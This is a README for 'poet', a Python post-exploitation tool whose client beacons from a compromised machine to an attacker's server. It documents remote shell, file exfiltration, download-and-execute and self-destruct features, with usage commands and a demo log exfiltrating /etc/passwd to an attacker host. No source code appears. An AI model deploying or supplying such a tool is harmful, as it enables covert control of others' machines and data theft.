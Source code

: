 # poet

A simple POst-Exploitation Tool.

## overview

The client program runs on the target machine and is configured with an IP
address (the server) to connect to and a frequency to connect at. If the server
isn't running when the client tries to connect, the client quietly sleeps and
tries again at the next interval. If the server is running however, the
attacker gets a control shell to control the client and perform various actions
on the target including:

- reconnaissance
- remote shell
- file exfiltration
- download and execute
- self destruct

## usage

Poet is super easy to use, and requires nothing more than the Python (2.7)
standard library. To easily try it out, a typical invocation would look like:

Terminal 1:

```
$ ./client.py -v 127.0.0.1 1
```

Terminal 2:

```
$ sudo ./server.py
```

Note: By default, the server needs to be run as root (using `sudo`) because the
default port it binds to is 443. If that makes you uncomfortable, simply omit
`sudo` and use the `-p <PORT>` flag on both the client and server. Pick a
nice, high number for your port (> 1024).

Of course, using the `-h` flag gives you the full usage.

```
$ ./client.py -h
usage: client.py [-h] [-p PORT] [-v] [-d] IP INTERVAL

positional arguments:
  IP                    server
  INTERVAL              (s)

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT
  -v, --verbose
  -d, --delete          delete client upon execution

$ ./server.py -h
usage: server.py [-h] [-p PORT]

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT
```

## demo

This is just a small sample of what poet can do.

The scenario is, an attacker has gotten access to the victim's machine and
downloaded and executed the client (in verbose mode ;).  He/she does not have
the server running at this point, but it's ok, the client waits patiently.
Eventually the attacker is ready and starts the server, first starting a shell
and executing `uname -a`, then exfiltrating `/etc/passwd`. Then he/she exits
and detaches from the client, which continues running on the target waiting for
the next opportunity to connect to the server.

Victim's Machine (5.4.3.2):

```
$ ./client.py -v 1.2.3.4 10
[+] Poet started with delay of 10 seconds to port 443. Ctrl-c to exit.
[!] (2014-09-06 02:07:03.058921) Server is inactive
[!] (2014-09-06 02:07:13.060840) Server is inactive
[!] (2014-09-06 02:07:23.062512) Server is inactive
[!] (2014-09-06 02:07:33.064214) Server is inactive
[+] (2014-09-06 02:07:43.066828) Server is active
[!] (2014-09-06 02:08:50.403668) Server is inactive
[!] (2014-09-06 02:09:00.405364) Server is inactive
```

Attacker's Machine (1.2.3.4):

```
# ./server.py
[+] Poet server started on 443.
[i] (2014-09-06 02:07:43.066092) Connected By: ('5.4.3.2', 62209)
[+] (2014-09-06 02:07:43.066531) Entering control shell
Welcome to psh, the poet shell!
Running `help' will give you a list of supported commands.
psh > shell
psh > user@server $ uname -a
Linux lolServer 3.8.0-29-generic #42~precise1-Ubuntu SMP Wed May 07 16:19:23 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
psh > user@server $ ^D
psh > exfil /etc/passwd
psh : exfil written to archive/20140906/exfil/passwd
psh > help
Commands:
  chint
  dlexec
  exec
  exfil
  exit
  help
  recon
  selfdestruct
  shell
psh > exit
[+] (2014-09-06 02:08:40.401181) Exiting control shell.
[-] (2014-09-06 02:08:40.401328) Poet terminated.
```

## disclaimer

I am building Poet purely for my own education and learning experience.
The code is freely available because I think it might be useful to others
interested in learning about this sort of thing. Use it responsibly.
